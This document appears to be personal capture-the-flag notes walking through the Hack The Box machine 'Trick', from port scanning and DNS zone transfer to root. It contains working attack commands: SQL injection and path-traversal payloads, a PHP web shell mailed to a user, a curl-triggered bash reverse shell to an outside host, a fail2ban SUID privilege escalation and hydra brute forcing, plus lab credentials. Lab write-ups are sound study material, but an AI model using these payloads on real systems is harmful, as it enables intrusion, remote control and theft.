

# Nmap
Debian OS

| Port | service |                    |
| ---- | ------- | ------------------ |
| 22   | ssh     |                    |
| 25   | smtp    |                    |
| 53   | DNS     | ISC bind 9.11.5-P4 |
| 80   | http    | nginx 1.14.2       |
# Enumeration
## SMTP service
- NSE script to ENUM user
```bash
nmap --script smtp-enum-users.nse -p25 10.129.227.180
telnet 10.129.227.180 25
smtp-user-enum -m VRFY -U /usr/share/wordlist/seclists/Usernames/cirt-default-usernames.txt 10.129.227.180 25
```
## DNS service
```bash
# Guess domain name: trick.htb -> try for DNS transfer
dig axfr trick.htb @10.129.227.180
-> preprod-payroll.trick.htb
```
## WEB
### Fuzzing
```bash
# Fuzzing for subdomain /vhost
ffuf -u http://10.129.227.180 -H 'Host: FUZZ.trick.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 5480
# Also try feroxbuster
feroxbuster -u "http://10.129.227.180/"
```
### Preprod-payroll.trick.htb
-> go to http://preprod-payroll.trick.htb and we see an [exploit](https://www.exploit-db.com/exploits/50403)
```bash
username='+or+1%3D1--+&password=admin
# We can use SQLmap to try exploiting the SQLi (ex: read file)
```
We have the password of the administrator of the web app
```
Administrator:Enemigosss:SuperGucciRainbowCake
```
-> try finding other vhost
```bash
ffuf -u http://10.129.227.180 -H 'Host: preprod-FUZZ.trick.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 5480
-> preprod-marketing.trick.htb
```
### Preprod-marketing.trick.htb
-> The web server include page so I'll try LFI
```bash
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//etc/passwd
```
```bash
cat passwd.txt| grep "sh$"
	root:x:0:0:root:/root:/bin/bash
	michael:x:1001:1001::/home/michael:/bin/bash
```
-> Now we can read file on the server and we have mail server as well so lets try exploiting this:
```bash
# test read michael mail
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//var/mail/michael
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//var/mail/michael
-> Nothing
# try sending mail to micheal
swaks --to michael --from mister9999 --header "Subject: Hello\!" --body "test body" --server 10.129.227.180
```

lets try sending webshell because its used include & trigger it using curl command + LFI
```bash
--body '<?php system($_REQUEST["cmd"]); ?>"
# TRIGGER
curl "http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//var/mail/michael&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.240/9001%200%3E%261%27" 
```
-> GOT SHELL AS michael & persistence using his SSH key
# Fail2ban (restart as sudo - Linux Privesc)
```bash
# fail2ban version v0.10.2
mv /etc/fail2ban/action.d/iptables-multiport.conf /etc/fail2ban/action.d/test.conf
cat /etc/fail2ban/action.d/test.conf > /etc/fail2ban/action.d/iptables-multiport.conf
# change  the content to be:
nano /etc/fail2ban/action.d/iptables-multiport.conf
	actionban = cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf
# then restart as root
sudo /etc/init.d/fail2ban restart
# Need to do fail login attempts with SSH
hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://10.129.227.180 -I
```